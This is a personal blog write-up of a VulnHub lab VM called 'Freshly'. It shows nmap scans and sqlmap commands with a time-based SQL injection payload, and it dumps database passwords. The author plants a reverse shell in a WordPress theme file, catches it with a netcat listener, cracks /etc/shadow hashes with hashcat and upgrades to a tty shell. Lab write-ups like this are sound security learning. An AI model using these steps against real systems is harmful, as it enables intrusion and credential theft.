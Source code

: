 ```yaml
---
layout: post
title: Walkthrough Freshly
date: 2016-04-25 21:47:30.000000000 -03:00
type: post
published: true
status: publish
categories: []
tags:
- CTR
- pen-testing
- security
- wargames
meta:
  _oembed_9221ff89e72b62de312e61f62f0e4d12: "<div class=\"embed-binarytides\"><blockquote
    class=\"wp-embedded-content\"><a href=\"http://www.binarytides.com/sqlmap-hacking-tutorial/\">Sqlmap
    tutorial for beginners &#8211; hacking with sql injection</blockquote><script
    type='text/javascript'><!--//--><![CDATA[//><!--\t\t!function(a,b){\"use strict\";function
    c(){if(!e){e=!0;var a,c,d,f,g=-1!==navigator.appVersion.indexOf(\"MSIE 10\"),h=!!navigator.userAgent.match(/Trident.*rv:11./),i=b.querySelectorAll(\"iframe.wp-embedded-content\"),j=b.querySelectorAll(\"blockquote.wp-embedded-content\");for(c=0;c<j.length;c++)j[c].style.display=\"none\";for(c=0;c<i.length;c++)if(d=i[c],d.style.display=\"\",!d.getAttribute(\"data-secret\")){if(f=Math.random().toString(36).substr(2,10),d.src+=\"#?secret=\"+f,d.setAttribute(\"data-secret\",f),g||h)a=d.cloneNode(!0),a.removeAttribute(\"security\"),d.parentNode.replaceChild(a,d)}else;}}var
    d=!1,e=!1;if(b.querySelector)if(a.addEventListener)d=!0;if(a.wp=a.wp||{},!a.wp.receiveEmbedMessage)if(a.wp.receiveEmbedMessage=function(c){var
    d=c.data;if(d.secret||d.message||d.value)if(!/[^a-zA-Z0-9]/.test(d.secret)){var
    e,f,g,h,i,j=b.querySelectorAll('iframe[data-secret=\"'+d.secret+'\"]'),k=b.querySelectorAll('blockquote[data-secret=\"'+d.secret+'\"]');for(e=0;e<k.length;e++)k[e].style.display=\"none\";for(e=0;e<j.length;e++)if(f=j[e],c.source===f.contentWindow){if(f.style.display=\"\",\"height\"===d.message){if(g=parseInt(d.value,10),g>1e3)g=1e3;else
    if(200>~~g)g=200;f.height=g}if(\"link\"===d.message)if(h=b.createElement(\"a\"),i=b.createElement(\"a\"),h.href=f.getAttribute(\"src\"),i.href=d.value,i.host===h.host)if(b.activeElement===f)a.top.location.href=d.value}else;}},d)a.addEventListener(\"message\",a.wp.receiveEmbedMessage,!1),b.addEventListener(\"DOMContentLoaded\",c,!1),a.addEventListener(\"load\",c,!1)}(window,document);//--><!]]></script><iframe
    sandbox=\"allow-scripts\" security=\"restricted\" src=\"http://www.binarytides.com/sqlmap-hacking-tutorial/embed/\"
    width=\"600\" height=\"338\" title=\"Embedded WordPress Post\" frameborder=\"0\"
    marginwidth=\"0\" marginheight=\"0\" scrolling=\"no\" class=\"wp-embedded-content\"></iframe></div>"
  _oembed_time_9221ff89e72b62de312e61f62f0e4d12: '1461619731'
  _rest_api_published: '1'
  _rest_api_client_id: "-1"
  _publicize_job_id: '22163068225'
author:
  login: tidlost
  email: tl.dr.mfw@gmail.com
  display_name: tidlost
  first_name: ''
  last_name: ''
---
```


I did another vulnerable VM. This one is called Freshly and can be found [here.](https://www.vulnhub.com/entry/tophatsec-freshly,118/) It is also made by tophatsec, so [thanks tophatsec](http://www.top-hat-sec.com/r4v3ns-blog/new-vm-challenge-freshly) for another great VM. Let's get started.
First let's find the machine.

```bash
nmap 192.168.1.1/24
```

Great, now that we got the ip, let's scan it.

```bash
nmap -A -T4 -p- 192.168.1.107                        [12:17:27]
Starting Nmap 7.00 ( https://nmap.org ) at 2016-04-24 12:18 CLST
Nmap scan report for 192.168.1.107
Host is up (0.00058s latency).
Not shown: 65532 closed ports
PORT     STATE SERVICE  VERSION
80/tcp   open  http     Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
443/tcp  open  ssl/http Apache httpd
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=www.example.com
| Not valid before: 2015-02-17T03:30:05
|_Not valid after:  2025-02-14T03:30:05
8080/tcp open  http     Apache httpd
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.45 seconds
```

Okay, so we have a port 80, and SSL-port 443, and port 8080. All web.
On port 80 there is just a star-wars gif. I download it and check it out if exiftool just in case. But nothing of interest.
I fire up ZAP and start doing a Force Browse (DirBusting).
Meanwhile I check out port 8080 and port 443. Both of them seem to lead to a wordpress-installation. I snoop around and find that there is a user named admin (the default user in wordpress). I try to login with admin/admin in /wp-admin but no result. I also try a dictionary-attack but without any luck. But I am not blocked out, so that means there are no plugins with fail2ban -features.
I try some sqlinjections in the store but without success.
So I go back to ZAP to see what it has found. And I can see that it has found a page called /login.php and phpmyadmin. So I head over to login.php and find a login. I use sqlmap to see if there are any vulnerabilities.
So I make a request and the intercept it in burp suite, and copypaste the request to a file I call request.txt. "user" is the parameter that I am testing for injections.

```bash
./sqlmap.py -r request.txt -p user
```

Okay, so sqlmap found a [](http://www.sqlinjection.net/time-based/">time-based blind.

```
---
Parameter: user (POST)
    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (SELECT)
    Payload: user=' AND (SELECT * FROM (SELECT(SLEEP(5)))RRpU) AND 'wUfW'='wUfW&password=&s=Submit
---
```

I had never successfully used sqlmap before, so this was a great learning experience. So after finding out that there is a vulnerability I run the following command to get the databases. It really took a long time because it was a time-based attack.

```
./sqlmap.py -r request.txt -p user --dbs
```

Output:

```
available databases [7]:
[*] information_schema
[*] login
[*] mysql
[*] performance_schema
[*] phpmyadmin
[*] users
[*] wordpress8080
```
Then I wanted the tables and the content, so I ran:
```
./sqlmap.py -r request.txt -p user --tables -D wordpress8080
Database: wordpress8080
[1 table]
+-------+
| users |
+-------+
```

```
./sqlmap.py -r request.txt -p user --dump -D wordpress8080 -T users                                  [18:45:53]
Database: wordpress8080
Table: users
[1 entry]
+----------+---------------------+
| username | password            |
+----------+---------------------+
| admin    | SuperSecretPassword |
+----------+---------------------+
```
So yeah, not so secret password. I used it to login to wordpress.
This [](http://www.binarytides.com/sqlmap-hacking-tutorial/">guide was quite useful to get the hang of sqlmap.
So, admin on a CMS usually means shell. So I went to appearance/editor and then I just copy-pasted my reverse shell into header.php. Probably not the most silent way, but it is easy to remove the code after it has been executed.
Then I fired up netcat. With:

```
nc -v -l 1234
```

`-v` stands for verbose. `-l` for listening. And 1234 is the port. The `-p` flag is not really needed to define the port.
Make sure that your firewall is open.

```
sudo ufw allow 1234
```

So, now I got a shell with the user daemon

```
uid=1(daemon) gid=1(daemon) groups=1(daemon)
```

I create a file in /tmp called linEnum.sh where I copypaste the linEnum-file. Then:

```
chmod +x linEnum.sh
./linEnum.sh
```

To enumerate important and interesting files. It outputs a lot of stuff, among others this:
/etc/passwd

```
user:x:1000:1000
mysql:x:103:111
candycane:x:1001:1001
# YOU STOLE MY SECRET FILE!
# SECRET = "NOBODY EVER GOES IN, AND NOBODY EVER COMES OUT!"
```

And the following in /etc/shadow

```
root:$6$If.Y9A3d$L1/qOTmhdbImaWb40Wit6A/wP5tY5Ia0LB9HvZvl1xAGFKGP5hm9aqwvFtDIRKJaWkN8cuqF6wMvjl1gxtoR7/:16483:0:99999:7:::
user:$6$MuqQZq4i$t/lNztnPTqUCvKeO/vvHd9nVe3yRoES5fEguxxHnOf3jR/zUl0SFs825OM4MuCWlV7H/k2QCKiZ3zso.31Kk31:16483:0:99999:7:::
mysql:!:16483:0:99999:7:::
candycane:$6$gfTgfe6A$pAMHjwh3aQV1lFXtuNDZVYyEqxLWd957MSFvPiPaP5ioh7tPOwK2TxsexorYiB0zTiQWaaBxwOCTRCIVykhRa/:16483:0:99999:7:::
There is also a message in the shadow-file:
# YOU STOLE MY PASSWORD FILE!
# SECRET = "NOBODY EVER GOES IN, AND NOBODY EVER COMES OUT!"
```

I thought I had to reach root, so I didn't really think of this as the flag. So I copied the hashes and started running hashcat on them, which was fun as it was the first time. So I ran it an all the three hashes, with the following command.

```
./hashcat-cli64.bin -m 1800 -a 0 -o found.txt --remove candycane.hash ~/sectools/SecLists/Passwords/10_million_password_list_top_100000.txt
```

I only found the password for candycane which was "password". I didn't manage to crack the other users.
Now I wanted to su up for candycane but it didn't work since I didn't have a tty-shell. And
```
import pty; pty.spawn('/bin/bash')
```
this didn't work. But I found a workaround.

```
echo "import pty; pty.spawn('/bin/bash')" > /tmp/shell.py
ptyhon shell.py
```

So this gave me a tty-shell and I could run su candycane.
So, here I got stuck a while and started looking back in my notes to see if I had missed something. So I took out the content from the database login

```
Database: login
Table: users
[2 entries]
+----------+-----------+
| password | user_name |
+----------+-----------+
| password | candyshop |
| PopRocks | Sir       |
+----------+-----------+
```

And I tried these passwords on user and root. But it didn't work. After many other tries enumerating the system I gave up. And on some other walkthroughs I found that the password for user (which was a sudo-user) and root was SuperSecretPassword. So that was a little bit annoying that I never tried that. And I also found out that it was the same password for the mysql-root user. Which could be found in the login.php-file. So that was a little bit stupid that I never checked that.

## Conclusion
All in all it was a great VM. I got to learn tools like hashcat and sqlmap, which I am sure will come in handy on other VMs. I also learned about wpscan while reading other walkthroughs. I was surprised that SuperSecretPassword was not found in my password-dictionaries that I tried.
Other things that I missed was playing around with phpmyadmin. I read in some other walkthroughs that you could figure out the DBMS from it. That would have been good.
But at least I got the flags.
